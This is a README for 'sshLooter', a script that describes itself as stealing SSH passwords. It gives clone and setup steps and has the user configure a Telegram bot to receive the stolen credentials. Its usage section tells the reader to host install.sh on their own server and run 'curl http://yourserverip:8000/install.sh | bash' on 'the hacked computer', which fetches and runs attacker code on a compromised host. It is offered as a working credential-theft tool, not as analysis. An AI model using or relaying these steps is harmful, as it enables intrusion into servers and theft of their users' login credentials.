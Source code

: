 # sshLooter
Script to steal passwords from ssh.

# Install
<pre>
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter
</pre>

# Configuration
<pre>
Edit the script on install.sh, and add your telegram bot api, and your userid.
Call the @botfather on telegram to create a bot and call the @userinfobot to get your user id.
</pre>

# Usage
<pre>
On your server execute.
python -m SimpleHTTPServer

On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
</pre>

# Original script from
<a href="http://www.chokepoint.net/2014/01/more-fun-with-pam-python-failed.html" target="_blank">ChokePoint</a>

# My post about this script
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
